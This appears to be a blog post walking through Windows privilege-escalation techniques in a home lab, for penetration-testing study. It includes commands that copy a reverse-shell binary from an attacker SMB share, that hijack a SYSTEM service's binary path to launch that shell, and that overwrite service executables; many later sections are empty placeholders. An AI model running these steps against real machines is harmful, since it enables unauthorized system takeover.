




title: Privilege Escalation Blueprint
tags:
  - Windows
  - privesc
categories: []
date: 2024-11-03 11:19:36
---


---------
  # Introduction
In this guide, I’ll walk you through essential Windows privilege escalation techniques, covering various methods from kernel exploits to application misconfigurations. We’ll start by setting up our lab environment and tools, then dive into specific methods for escalation, I'll also include a list of checks for each section.

 <!-- more -->
----------------------------------

## Table of Contents

- [Introduction](#introduction)
- [Lab Setup and Tools](#lab-setup-and-tools)
- [Privilege Escalation Tools](#privilege-escalation-tools)
- [Kernel Exploits](#kernel-and-service-exploits)
- [Service Exploits](#kernel-and-service-exploits)
- [Registry](#registry)
- [Passwords](#passwords)
- [Scheduled Tasks](#scheduled-tasks)
- [Insecure GUI Applications](#insecure-gui-applications)
- [Installed Applications](#installed-applications)
- [Port Forwarding](#port-forwarding)
- [Startup Applications](#startup-applications)
- [Conclusion](#conclusion)

  ----------------------------------


## Lab Setup and Tools
---
For this guide, I’m using a virtual environment with Kali Linux as the attack machine and Windows 10 as the target machine. environment is configured with default security settings and  Windows defender was disabled to focus on learning the techniques. 

List of tools used:

```
accesschk.exe          juicypotato.zip  Procmon64.exe  SharpUp.exe
CreateShortcut.vbs     plink.exe        PsExec64.exe   winPEASany.exe
cve-2018-8120-x64.exe  potato.exe       Seatbelt.exe
JuicyPotato.exe        PowerUp.ps1      setup.bat
```

Transfering tools over to the victim:
in order to move the files to our target we will use SMB.

enable smb on windows so we can transfer the tools


start  SMB server on Kali:

```python
python /usr/share/doc/python3-impacket/examples/smbserver.py tools .
```

start a reverse shell on Windows instead of having to use the gui

```cmd
cp C:/Users/vboxuser/Desktop/
\\192.168.5.4\tools\reverse.exe
```
----------

## Windows Access Control and Privileges

 ----------------------------------

### User Accounts
Think of a user account as a collection of settings / preferences
bound to a unique identity.
The local “Administrator” account is created by default at
installation.

### SERVICE ACCOUNTS
Service accounts are (somewhat obviously) used to run services
in Windows.
Service accounts cannot be used to sign into a Windows system.
==The SYSTEM account is a default service account which has the==
==highest privileges== of any local account in Windows.
Other default service accounts include NETWORK SERVICE and
LOCAL SERVICE.

### Groups
Pseudo groups (e.g. “Authenticated Users”) have a dynamic list of
members which changes based on certain interactions.

### Resources
In Windows, there are multiple types of resource (also known as objects):
• Files / Directories
• Registry Entries
• Services

Whether a user or a group has permission to perform a certain action
on a resource depends on that resource’s access control list (ACL).

----------------------------------
### ACLs & ACEs
----------------------------------



Permissions to access a certain resource in Windows are controlled by the access control list (ACL) for that resource. Each ACL is made up of zero or more access control entries (ACEs).
Each ACE defines the relationship between a principal (e.g. a
user, group) and a certain access right.

-------------
## Kernel Exploits
----------------------------------

Kernel exploits allow you to escalate privileges by taking advantage of vulnerabilities in the system’s core processes or services. This section explores common kernel and service vulnerabilities and methods to exploit them.
The kernel has complete control over the operating system. Think of it as a layer between application software and the actual computer hardware Exploiting a kernel vulnerability can result in execution as the `SYSTEM` user.

Finding and using kernel exploits is usually a simple process:
1. Enumerate Windows version / patch level `(systeminfo)`.
2. Find matching exploits (Google, ExploitDB, GitHub)MS.
3. Compile and run

----------------------------------
## Enumerating the environment
----------------------------------
- Windows Exploit Suggester:

```
git clone https://github.com/bitsadmin/wesng
```
you need to feed it the systeminfo output

run this from windows terminal: 

```cmd
systeminfo > sysinfo.txt
```

run the Windows exploit suggester:

```
 > wes sysinfo.txt -i 'Elevation
of Privilege' --exploits-only | less
```



so now that we hopefully enumerated the kernal version using wes lets look for Precompiled Kernel Exploits:
https://github.com/SecWiki/windows-kernel-exploits
Unfourtently for me i wasn't able to get any exploits as the machine i was testing was fully patched. if you found though, you can look up the exploit and try it for priv esc.

----------------------------------
## **Services**
----------------------------------

services act as background programs, executing some regular tasks. if services are misconfigured and are running with system privileges, you can exploit them to run commands with system privileges too. Each service has an ACL which defines service-specific Permissions. 
Some permissions are not useful for our intetions (e.g. `SERVICE_QUERY_CONFIG`,
`SERVICE_QUERY_STATUS`).
Some may be useful (e.g. `SERVICE_STOP`, `SERVICE_START`).
Some are dangerous (e.g. `SERVICE_CHANGE_CONFIG`,`SERVICE_ALL_ACCESS`)
Common Service Misconfigurations:
- Insecure properties
- unquoted Service Path
- Weak Registry Permissions
- Insecure Service executables
- DLL hijacking


**Insecure Service permissions**

- if a user has permission to change the configuration of a service which runs with system privileges, we can change the executable the services uses to one of our own.
- you need to be able to start/stop the service.



Let's find out more details about the service
querying for service info:

```
> sc qc daclsvc
```

![[HTB/CPTS/offensive security/Screenshots/images/images 1/Pasted image 20240811150127.png]]

`START_TYPE: DEMAD_START` means this server starts manually also, the service runs with **system permissions**.
querying for service status
```
sc query daclsvc
```
![[HTB/CPTS/offensive security/Screenshots/images/images 1/Pasted image 20240811150657.png]]
**Changing  configuration**:
so now that we we know that the service config is modifiable, we're able to tamper with the config to set the binary path of the service to our own executable `reverseshell.exe` and start the service.
Tools is located at `C:\Users\user\Desktop\tools`

```cmd
sc config daclsvc binpath= "\"C:\Users\user\Desktop\tools\reverse.exe\""
```
Confirming the new config.
![[HTB/CPTS/offensive security/Screenshots/images/images 1/Pasted image 20240811151453.png]]
Now you can start a `nc` listener and `net start daclsvc` to get a shell using this technique .

***Modifiable services**
after running `winPEAS.exe queit serviceinfo` to enumerate services information
we can find that the`daclsvc`  properties can be modified.
**Accesschk flags**

```
Services:    -uwqcv user <svc-name>
Files:       -quvw
Directories: -uwdq
Registries:  -uvwqk
```

----------------------------------
#### Service permission Checklist:
---------------------------------- 
**Checks for insecure service permission:
- [ ]  you ran **Winpeas** and it highlighted  that you can modify a service.
- [ ]  You are able to interact with services (Eg. Query config)
- [ ]  You confirmed your current user's permissions to service with **accescheck

```cmd
accesschk /accepteula -uwcqv <loggedin-user> <svc-name>
```
The follow checks are also related to accesschk:
- [ ]  you can modify configuration of a service `SERVICE_CHANGE_CONFIG`
- [ ]  You can start the service `SERVICE_START`
- [ ]  The service is run with the permission of system or higher privilege user `SERVICE_START_NAME` Attributes

----------------------------------

**Checks for unquoted Service Path**:
- [ ]  you ran **Winpeas** and it found that a service had unquoted path.
- [ ]  You ran accesschk  `-ucqv` to see if you have `SERVICE_START` permission.
- [ ]  You ran acceschk on each directory in the path to binary  `-uwdq  <possible-dir>` 

----------------------------------

**Checks for Weak Registry Permissions**

- [ ]  WINPEAS Output
- [ ]  Verify registry permission with powershell or acesschk 

```powershell
Get-Acl <REGISTERY-ENTRY-PATH> | Format-List

accesschk.exe /accepteula -uvwqk <registery path>
```
- [ ]  Check for `start/stop ` permission `` accesschk /accepteula -ucqv user <svc>``
- [ ]  Query registry info `reg query <regPath>`
- [ ] Override registry values using `reg add `

----------------------------------

**Checks for insecure file permissions (Replaceable exe)**:
- [ ]  WINPEAS Output
- [ ] Access check with `-quvw` and `uvqc` on the `exe` file

```
copy /Y <pathtoshell> "<path-to-exe>"
```

----------------------------------
## Passwords
----------------------------------
In this section, we look at methods to locate and exploit weak or hardcoded passwords on a system. Tools like `mimikatz` can be particularly useful for this.

**![Image Placeholder: Password Extraction]**

----------------------------------
## Registry
----------------------------------
The Windows Registry stores configuration settings, some of which may be misconfigured in a way that allows privilege escalation. Here’s what to look for in the registry and how to leverage any insecure settings.

**![Image Placeholder: Registry Exploitation Steps]**


----------------------------------
## Insecure GUI Applications
----------------------------------
GUI applications that run with elevated privileges but have insecure settings can be exploited to execute arbitrary code. This section covers how to identify and take advantage of these applications.

**![Image Placeholder: GUI Application Exploitation]**


----------------------------------
## Scheduled Tasks
----------------------------------
Misconfigured scheduled tasks may allow an attacker to replace executables or scripts with their own. This section explains how to find and exploit such tasks for privilege escalation.

**![Image Placeholder: Scheduled Task Exploitation Steps]**


----------------------------------
## Installed Applications
----------------------------------
Improperly configured installed applications can present opportunities for privilege escalation. Here, we’ll cover common misconfigurations in applications that can be exploited.

**![Image Placeholder: Application Misconfiguration Exploitation]**


----------------------------------
## Port Forwarding
----------------------------------
If network restrictions are blocking your path, port forwarding can help bypass them. Learn how to use port forwarding to create new attack vectors in restricted environments.

**![Image Placeholder: Port Forwarding Example]**


----------------------------------
## Startup Applications
----------------------------------
Applications set to run at startup, especially those with elevated privileges, may be vulnerable to exploitation. Here’s how to check for these applications and leverage any vulnerabilities.

**![Image Placeholder: Startup Application Exploitation]**

----------------------------------
## Conclusion
----------------------------------
Privilege escalation is a critical skill in penetration testing, and mastering these techniques gives you powerful insight into system security. This guide covers various practical methods, from kernel exploits to startup applications, ensuring you have a solid toolkit for real-world scenarios. Always remember to test responsibly!

